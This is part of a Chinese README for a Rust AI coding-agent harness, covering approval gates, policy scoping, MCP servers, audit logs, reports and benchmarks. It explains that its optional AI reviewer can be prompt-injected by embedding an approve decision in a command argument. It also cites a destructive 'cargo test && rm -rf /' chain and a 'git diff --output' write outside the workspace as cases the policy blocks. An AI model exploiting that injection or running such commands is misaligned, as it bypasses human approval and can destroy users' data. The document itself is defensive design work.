**人工等待。** 默认策略带一份内置基线：`cargo test`/`cargo build`/`git status`/`git diff` 四族命令免审，`git push`/`cargo publish`/`rm`/`curl` 照旧要人点头（命令头之后的 shell 链接符本来就不会被 `*` 吞掉，`cargo test && curl …` 仍然要审）。选 `p` 按前缀信任时，候选前缀从当前调用的参数推断——命令取前两个词（`cargo test` 而不是 `cargo`），路径取所在目录——回车即接受，也可以敲自己的。`--report` 因此多一列 `等审ms`：从"策略判了要审"到"闸门给结论"的间隔，就是人花了多久点头。

**基线不放宽任何边界。** 受保护路径、命令级策略、fail-closed 审批、越界写入必审四道硬边界都不经过策略基线这一层；它只是把"本来就要问、但其实无害"的几次询问提前免掉。具体地：`git diff --output=C:\x` 这种**用基线放行的命令族把内容写到 workspace 外**的写法，会被越界写入升级单独拦下要审（那条检查不看动词，任何指向 workspace 外的参数都算嫌疑）——本机实测 `git diff --output=D:\x` 会真的落盘。想改这份名单就写配置文件（`QCH_POLICY`）——显式配置整体取代基线，不与它合并。

### 运行

```bash
cargo run -- "阅读 Cargo.toml，说明本项目用了哪些依赖"
```

任务按模板编排执行（默认 `bug-fix`，见"任务编排"一节）：控制台先打印任务、模板与审批模式，然后在同一个会话里依次跑完各步骤的 ReAct 循环（轮次号跨步连续，分隔线、`[思考]`、`[行动]`、`[观察]`），结束是 `──── 最终答案 ────` 与一行汇总（任务 ID、完成步数、会话 ID）。

### 缺陷修复演练（隔离仓库）

`tests/fixtures/broken-repo/` 是一个自带失败测试的小 crate（`greet` 忘了拼名字）。可以把它拷到任意目录，让 agent 真实修复它——这是观察 ReAct 循环 + 工具体系 + 审批闸门协同工作的最短路径：

```powershell
Copy-Item -Recurse tests/fixtures/broken-repo $env:TEMP\qch-demo
Copy-Item policy.example.toml $env:TEMP\qch-demo\policy.toml
$env:QCH_POLICY = "$env:TEMP\qch-demo\policy.toml"
cargo run --manifest-path <主项目路径>\Cargo.toml -- "修复 broken-repo 里失败的测试"
```

Linux 与 macOS 上换成等价的 POSIX 写法（`cp -r`、正斜杠路径、`QCH_POLICY` 用 `export`）：

```bash
cp -r tests/fixtures/broken-repo /tmp/qch-demo
cp policy.example.toml /tmp/qch-demo/policy.toml
export QCH_POLICY=/tmp/qch-demo/policy.toml
cargo run --manifest-path <主项目路径>/Cargo.toml -- "修复 broken-repo 里失败的测试"
```

过程中的典型节奏：`read_file` 看代码（免审）→ `edit_file` 改一行（要审批）→ `run_command cargo test`（要审批）→ 输出 `test result: ok` 后给出最终答案。

### 审批

默认情况下，每个非只读工具执行前都会停下来问：

```
──── 审批请求 ────
工具:   write_file
参数:   {"path":"src/main.rs","content":"..."}
风险:   破坏性 · 非幂等
批准执行？[y] 允许  [n] 否决  [a] 本会话允许此精确调用  [p] 本会话按前缀允许  [q] 中止运行:
```

`y` 放行本次、`n` 否决并追问原因（原因会回填给模型）、`q` 中止整个运行。两个信任选项按**粒度**区分：

| 选项 | 信任范围 | 例子 |
|------|----------|------|
| `a` | 同名工具 + **参数完全一致** | 信任了 `write_file {"path":"a.txt"}`，改写 `b.txt` 照问 |
| `p` | 同名工具 + **参数以前缀开头**（尾部 `*` 语义） | 输入 `cargo test`，`cargo test --release` 也不再问，但 `cargo testx` 会问 |

选 `p` 之后前缀输入框会带上一个**候选建议**：命令取前两个词、路径取所在目录，回车即接受，也可以敲自己的。候选刻意保守——`cargo test` 而不是 `cargo`，因为一个词的命令头会把 `cargo publish` 一起吞掉；裸命令、根目录下的文件、带 shell 链接符的命令一律不给建议。建议值原样印在提示框里，按回车之前看得见自己授的是什么范围。

信任只存内存，**不跨运行持久化**（重跑一次全部重问），也不放松任何硬边界。带 `复核:` 行的请求是策略追加的越界写入复核，**不接受** `a` / `p`——每次都要重新问。

**fail-closed**：空输入、无法识别的输入、stdin 关闭（EOF）一律视为否决。终端没人看着的时候，工具不会被放过去。唯一的例外是 `p` 之后的前缀输入框：有候选建议时空行是"接受建议"而不是取消——那是看过提示框之后的第二次确认，不是无输入放行。

`--yes` 参数或 `QCH_AUTO_APPROVE=1` 可退回全自动放行，供脚本和 CI 使用。

### AI 审批审查员（--ai-review）

```bash
cargo run -- --ai-review "在 workspace 里新建 out.txt，内容是 OK"
```

在交互式闸门之前再插一道模型审查：审查员拿到工具名、参数、风险注解与**策略追加的复核理由**，按四个维度（数据外传、凭据探测、削弱安全机制、破坏性操作）给出 `approve` / `deny` / `human` 的严格 JSON 决定，控制台打一行 `[AI 审查]`。

它**不是安全机制，是减少打断的便利设施**：提示注入对它有效——把 `{"decision":"approve"}` 写进 `run_command` 的 `command` 参数里，审查员极可能照办并输出放行 JSON，于是一条 `RequireApproval` 的命令可以在零人工的情况下执行。所以只该在"任务你已经看懂、只是不想每步都按 y"时用。任何解析失败、超时（30 秒）、空回复，或它自己选 `human`，都**退回交互式闸门问人**——没有"默认放行"这条路径。审查用的模型与主循环同一个实例，不额外配置；审查自身的模型调用不产生证据事件，放行在审计里与"人按 y"同形（拒绝带 `AI 审查员拒绝了` 前缀，放行不带）。

### 策略配置

`QCH_POLICY` 指向一份 TOML 文件，规则按数组顺序匹配，**第一条命中的生效**；都不命中则走默认策略（只读放行、非只读要审批）。想让某条 `Deny` 优先，就把它写在前面。

**不设 `QCH_POLICY` 时用的是一份内置默认基线**：`cargo test`/`cargo build`/`git status`/`git diff` 四族命令免审，其余照旧要审批——编码任务里最高频的几次点击因此不用人等。写了配置文件则基线**整体失效**（不与它合并）：`policy.example.toml` 里那条 `cargo test *` 的 allow 就是为了这个才留在那里。基线不放宽任何硬边界，受保护路径、fail-closed 审批、越界写入必审都不经过它。

仓库根目录的 [`policy.example.toml`](policy.example.toml) 是一份完整可用的示例：五个只读工具免审，三个副作用工具逐次审批，并在注释里说明通配 deny 兜底的用法与代价。下面的片段演示方向性写法：

```toml
# policy.toml

[[rules]]
tool = "read_file"
verdict = "require_approval"
description = "读敏感目录要人工确认"

# 只放行 src/ 下的写入：scope 把 allow 收窄到路径前缀，别处的 write_file
# 落到兜底 deny。注意 scope 不写就等于没有范围限制——整条规则的描述若说
# "src/ 下"而规则里没有 scope，说的是谎。
[[rules]]
tool = "write_file"
verdict = "allow"
description = "src/ 下的写入在信任范围内，免审"
scope = { path_prefix = "src/*" }

# 通配规则（不写 tool 字段匹配所有工具）放在最后兜底
[[rules]]
verdict = "deny"
description = "其余工具一律禁止"
```

`verdict` 取值 `allow` / `require_approval` / `deny`，大小写不敏感。无法识别的值按 `require_approval` 处理——宁可多问一句，不能因为一个拼写错误放过高危工具。

**参数级作用域**：`scope` 让一条规则只匹配"工具名 + 参数"都命中的调用：

```toml
[[rules]]
tool = "run_command"
verdict = "allow"
description = "只读验证类命令免审"
scope = { command_prefix = "cargo test *" }

[[rules]]
tool = "run_command"
verdict = "require_approval"
description = "其余 shell 命令一律审批"
```

| 字段 | 作用的参数 | 语义 |
|------|-----------|------|
| `command_prefix` | `command` | 命令头，尾部 `*` 为前缀匹配 |
| `path_prefix` | `path` | 路径前缀，尾部 `*` 为前缀匹配 |

`"cargo test *"` 匹配 `cargo test --nocapture` 也匹配 `cargo test`，但**不**匹配 `cargo testx`（`*` 之前那段必须原样出现，语义与 Claude Code 的 `Bash(cmd:*)` 一致）；没有 `*` 就是精确相等，所以 `"src/"` 不匹配 `src/main.rs`，要写 `"src/*"`。只支持尾部通配，不支持 `git * main` 这种中间匹配。两个字段都不写等于没有作用域。

**`*` 不吞 shell 链接符**：命令头之后一出现 `&&` `||` `;` `|` `&` 或换行，规则就不命中、退回审批——`cargo test *` 因此不放行 `cargo test && rm -rf /`。代价是 `cargo test 2>&1` 也要多问一次（单个 `&` 算链接符），这是刻意偏向"多问"的取舍。

作用域只**收紧**规则，从不为调用开路：写在 `allow` 规则里的 scope 之后，仍然要过越界写入升级检查与受保护路径检查。反过来，`deny` 规则的条件**无法求值**时（参数名不叫 `path`/`command`，MCP 工具与 `git_diff` 都会这样）按拒绝处理，不落回默认策略——否则一条"禁止碰 secrets/"会因为参数名不同而静默失效、翻成放行。`ScopeConfig` 带 `deny_unknown_fields`——拼错字段名当场报错，而不是让作用域悄悄消失、把"只放行 cargo test"扩大成"放行所有 run_command"。

### 项目指令（QCODEHARNESS.md）

workspace 根的 `QCODEHARNESS.md` 会被追加到**每个角色**的系统提示词末尾，让模型知道这个项目自己怎么做事（提交信息用中文、别动生成代码、跑测试用哪条命令）。次级位置 `.qcodeharness/instructions.md` 语义相同，两个都在时根上的赢；次级位置的存在意义是 `.qcodeharness` 属于受保护路径——放在这里的指令不会被一次失控的 `write_file` 抹掉。

上限 8 KiB，超出按字符边界截断并在提示词里留下说明；读不成 UTF-8 的文件给一条告警后跳过（不当场炸：指令是便利设施，不是安全边界）。文件不存在时不追加任何内容，提示词一行不多。

**项目指令只改"想做什么"，不改"能做什么"**：工具白名单、受保护路径、策略规则一道都不松。

### MCP 工具（外部 Server）

设置 `QCH_MCP_CONFIG` 指向一份 TOML 文件，即可把外部 MCP Server 的工具接进注册表（当前仅支持 stdio 传输；未设置时 MCP 关闭）：

```toml
[[mcp_servers]]
name = "fetch"
command = "uvx"
args = ["mcp-server-fetch"]
```

接入规则：

- **命名**：MCP 工具以 `mcp__<server>__<tool>` 进注册表。前缀让来源在证据、审批请求与策略规则里肉眼可辨，也从根本上杜绝与内置工具（或别的 Server 的同名工具）撞名后被静默覆盖——某 Server 暴露了与 `read_file` 同名的工具时，两者并存。Server 名字只允许字母、数字、下划线与连字符，且不得重复，违者在加载时直接报错。
- **风险分级**：注解由 Harness 从工具名与描述**自行推断**，不信任 Server 自报的 `readOnlyHint`——那是对方的一面之词，据此放行等于把审批边界交给被接的一方。推断保守优先：名字与描述里"有读动词（read/get/list/search/…）且无写动词（write/create/delete/update/…）"才判只读免审，拿不准一律按可写处理、走审批闸门。MCP 工具的完整名可以直接写进策略规则（如 `tool = "mcp__fetch__get_page"`）。
- **降级**：单个 Server 连接失败（进程起不来、连接超时 30 秒）只打一条 stderr 警告并跳过，其余 Server 与全部内置工具照常可用；每次工具调用另有 120 秒超时，不会挂死整个步骤。
- **进程沙箱内**：Windows 上，harness 先建 Job（建不起来就让该 Server 连接失败，不启动没有边界的进程），再在**握手之前**按 PID 把启动 Server 的那个进程纳入与其他子进程同一个 Job Object，于是受内存/进程数限额约束，连接结束时整树终止（含它在纳入之后自己拉起的子进程与孙进程）；非 Windows 平台、PID 已失效或纳入失败时回退为无保护。每次调用在证据里标 `MCP subprocess`，`active` 如实反映有没有真进 Job——不谎报保护，也不一律写死"无保护"。仍不受保护的是文件系统、网络与环境变量脱敏（Job Object 不管这些，MCP 环境也不清理），单次调用超时也只放弃请求、不中断 Server。接第三方 Server 前请自行评估其可信度，把 `mcp__<server>__<tool>` 写进 deny 规则比事后评估更可靠。
- **配置错误即停**：配置文件存在但解析失败、或 Server 定义非法时进程直接退出（与策略配置同一哲学）——用户明确想接的集成，不能静默丢掉让模型拿着残缺的工具清单跑任务。文件不存在则视为没配 MCP，正常关闭。

### MCP 生命周期、故障证据与安全恢复

一个 Server 的多个工具共享一条连接，连接有自己的生死；这一节把"连接怎么了、能不能恢复"变成可交代的事实，而不是让模型从观察文本里猜。

- **故障分类只看类型，不看错误文本。** 每类故障是一个枚举（`McpFaultKind`）：`Spawn`（进程起不来）、`Handshake`/`HandshakeTimeout`（握手失败/超时）、`Discovery`/`DiscoveryTimeout`（清单发不出/不回）、`Disconnected`（传输断开）、`CallTimeout`（单次调用超时）、`ServerError`（Server 报 `isError`）、`Protocol`（协议请求失败）、`ToolChanged`（清单变了，按旧定义拒调）、`Closed`（已主动关闭）、`RecoveryUnavailable`（这条连接没有重连配置）、`SandboxCreation`（Job 建不起来，Windows fail-closed）。分类来自 rmcp 返回的错误类型映射，**绝不按错误字符串猜类别**（措辞一改就把成功读成失败）。
- **不猜退出码。** rmcp 不提供子进程退出码，进程自己退出只记 `Disconnected`，不编造"异常退出，code N"这样的证据。`isError` 是业务错误，**不弄死连接**——同一条连接的下一次调用照常走。
- **超时与断连都只放弃请求，不承诺取消。** 请求一旦发出，超时或断连都证明不了远端没执行：这类失败一律标 `result_unknown`，观察文本里写"原调用已发出，远端可能仍在执行，结果未知"，并**绝不自动重放**（副作用可能已发生）。恢复也只重建通信、不发送任何 `tools/call`。当前不提供"恰好一次执行"的保证。单次调用超时也不中断 Server。
- **连接与调用分账审计。** 连接级事件（连上、连接失败、断开、恢复成功/失败、主动关闭）进 `AuditEvent::McpLifecycle`，落到固定追加文件 `.qcodeharness/sessions/mcp-lifecycle.jsonl`；工具调用的失败事实进 `AuditEvent::McpCallFailed`，与工具观察分开记，含 Server、代际（generation）、故障类别、结果未知标志与**真实进程保护状态**。启动失败时没有工具调用，就**不伪造** `ToolObserved`/`SandboxApplied`；一次共享连接的断开只记一次，不按工具复读。审计不含凭据、环境变量或完整参数。这份只有连接事件的日志在 `--report` 里被单列成 MCP 计数（连接失败/断开/恢复/恢复失败/调用超时/结果未知），不计入会话成败、成本与墙钟，老证据文件照常读。
- **恢复是显式的、有界的运维动作，不是模型手里的按钮。** 唯一入口是命令行 `cargo run -- --mcp-reconnect <服务器名>`：独立探测模式，按配置**有界一次**地启动 + 握手 + 发现工具，把结果写进连接审计，然后显式关闭退出——不接任务描述、不与其他模式同场、不把恢复出的工具注入当前进程。运行中的会话**没有自动重试**，也没有给模型的 reconnect 工具（给了它每次超时就点一下）。要让恢复出的工具进任务，照常带任务描述启动，走完整的注册、授权与审批。状态机里的单次有界恢复（并发请求共享一次结果、失败后连接留在断开态、重连后工具清单变化按旧定义拒调）已由替身与真实进程测试覆盖，只是当前没有生产调用点——CLI 探测走的是"新建连接"这条已覆盖路径。
- **正常收尾显式关连接。** 三条正常结束路径（`--resume`、`--resume-task`、新任务）在返回前逐一显式关闭 MCP 连接：transport 先优雅收尾（关 stdin、最多等 3 秒），再释放 Job（顺序反了 `KILL_ON_JOB_CLOSE` 会抢杀优雅关闭中的进程）。失败与探测退出按平台分述：Windows 上由 Job Object 整树终止兜底；其他平台没有进程沙箱，异常退出会留下 MCP 子进程，需要手工清理。断开通知监视器只持通知句柄，不引用 service/transport/Job，不留旧连接或 Job 句柄的滞留。

### 证据文件

每次运行的审计事件追加写入 `<workspace>/.qcodeharness/sessions/<session_id>.jsonl`，每行一条 JSON，含 `sequence`、`recorded_at`（秒级 Unix 时间戳）和 `event`。运行结束后可从汇总行直接拿到文件路径。

证据汇故障不会中断 ReAct 循环：单条写入失败时丢弃该条并在 stderr 打一条警告。

### 运行报表（--report）

```bash
cargo run -- --report                        # 统计当前工作区
cargo run -- --report --report-dir <目录>    # 统计别的证据根目录
cargo run -- --report --json                 # 机器可读输出
```

报表从证据根目录的 `.qcodeharness/sessions/*.jsonl` 统计每个会话的事件数、模型调用次数、工具调用结局（成功/失败/拒绝）、审批分布、token 用量与成本合计。**不需要 API key**——报表只读证据文件，没配 `.env` 也能出。成本列的口径是诚实的：证据里没有成本数据（旧版本运行、或 provider 未报告）显示"未知"而不是 `$0.0000`；任一次调用成本未知，合计就是"未知"——被低估的合计比"未知"更危险。读取对坏行是宽容的：末尾被截断的 JSONL 行跳过并计入"坏行数"，不报错、不拖垮整个报表；但一个文件里没有一条能解析的行则显式报错，因为那多半是选错了文件，交回空数据会让报表看起来"一切正常"。

发生过 MCP 连接事件的运行会另落一份只有连接事件的 `mcp-lifecycle.jsonl`（见"MCP 生命周期"一节），报表把它从会话成败/成本/墙钟里排除，单列 **MCP 生命周期** 小节：连接失败、断开、恢复成功、恢复失败、调用超时、结果未知六个计数，外加日志份数；全零时不显示。这些计数回答"连接层发生了什么"，不与会话数混算——一次启动失败的 Server 不是一个失败会话。

表格列：`会话 / 事件 / 模型 / 工具成 / 工具败 / 工具拒 / 审批 / 等审ms / 输入tok / 缓存tok / 命中率 / 墙钟ms / 成本`。其中三列是吞吐的直接读数：`模型` 是模型往返次数（轮数），`墙钟ms` 是首末事件的间隔，`等审ms` 是从"策略判了要审"到"闸门给结论"的间隔——三者的合计行就是"这一轮基准/使用花了多久、多少是模型、多少是在等人"。墙钟与每轮延迟只进 `--json`（一行装不下 N 个轮延迟值）。证据时间戳带格式号：没有 `format` 键的旧文件按整秒解释，`format: 2` 按毫秒解释——秒级历史证据的耗时统计不会被精度变更带偏。

发生过上下文裁剪的会话，文本报表在表格之后附**证据台账**：这个会话读过、写过哪些文件，跑过哪些命令，哪些调用没执行完——与发给模型的台账同一份账，人是第二读者。JSON 输出带同样的结构化字段。

报表另汇总**执行边界**计数：`sandbox_protected_runs` / `sandbox_unprotected_runs`，分别来自 `SandboxApplied` 证据里"沙箱生效"与"未生效"的执行次数（非 Windows 平台全部落在后者；Windows 上握手前就纳入 Job 的 MCP 调用落在前者，纳入失败或非 Windows 的落在后者）。表格列宽不变，这两个计数只进 `--json`——它们回答的是"这一轮有多少执行真的在边界内"，与吞吐无关，塞进行式报表只会挤掉有用的列。

### 基准评测（--benchmark / --benchmark-long）

```bash
cargo run -- --benchmark          # 短任务套件：一遍跑完
cargo run -- --benchmark-long     # 长任务套件：先故意耗尽预算，再从任务快照恢复
```

跑 [`benchmarks/`](benchmarks/README.md) 下的固定任务集并打分：每个任务把自带的破损 fixture 仓库复制到临时目录，按工作流模板驱动 agent 修复，然后按**机器可判判据**打分——测试命令退出码、工作区有无实际改动、最终答案是否提到根因关键词。单任务失败不中断后续任务；结束打印 `通过 N/M 个任务`，有任务未通过时退出码为 1。

任务分两个套件：短任务测"能不能修好"，长任务测"中途被打断后能不能接着跑、且不重复已发生的副作用"——第一次运行把轮数上限压到配置值必然中途失败，恢复运行从任务快照继续并核对两段合计的账（轮数累计、`no_repeated_commands` 跨段去重、压缩后模型输出仍要提到关键上下文）。两个入口互斥，各自的套件划分有测试守着。内置五个任务：三个短任务覆盖修 bug 的三类典型起点（编译错误 → 运行时 panic → 静默逻辑错误），两个长任务各带多个独立缺陷与一个"链路上游也要读"的模块。任务的选取、判据写法与添加方法见 [benchmarks/README.md](benchmarks/README.md)。基准是可复现实验的地基：fixture 原件永不被动过，判据全部客观可查，同一任务集在不同模型或不同配置下的结果可以直接对比。

## 10. 预期成果

最终交付不仅是一款可运行的 AI 编程工具，还包括可读的 Rust 工程代码、架构设计、自动化测试、评测基线、故障处理记录和真实开发使用案例。项目价值将主要通过**代码任务完成情况、工程安全性和可复现证据**进行检验。
